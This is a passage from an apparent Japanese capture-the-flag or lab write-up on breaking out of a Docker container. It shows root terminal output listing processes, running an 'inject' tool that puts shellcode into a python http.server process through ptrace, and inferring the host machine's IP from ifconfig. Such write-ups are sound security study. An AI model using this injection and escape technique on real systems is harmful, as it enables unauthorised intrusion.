 <div class="md-code" style="width:100%">

```
root@533e4e3fac01:/# ps -ef | grep "python"
ps -ef | grep "python"
root       650 32420  0 13:51 pts/0    00:00:00 grep python
root     19477     1  0 12:16 ?        00:00:00 python3 -m http.server 31452
root     32419 21500  0 13:34 ?        00:00:00 python3 -c import pty;pty.spawn('/bin/bash')
```

</div>

<br>
　取得したPIDを指定してプログラムを実行します。

<div class="md-code" style="width:100%">

```
root@533e4e3fac01:/# ./inject 19477
./inject 19477
+ Tracing process 19477
+ Waiting for process...
+ Getting Registers
+ Injecting shell code at 0x7f418d201604
+ Setting instruction pointer to 0x7f418d201606
+ Run it!
```

</div>

<br>
　コンテナ内でネットワーク情報の取得し、ホストマシンのIPアドレスを推測します。  
コンテナ環境のIPアドレスが 172.17.0.2 ですので、ホストマシン側のIPアドレスは 172.17.0.1 だと推測できます。  

<div class="md-code" style="width:100%">

```
root@533e4e3fac01:/# ifconfig
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 3659  bytes 400605 (391.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 3312  bytes 3683641 (3.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

</div>
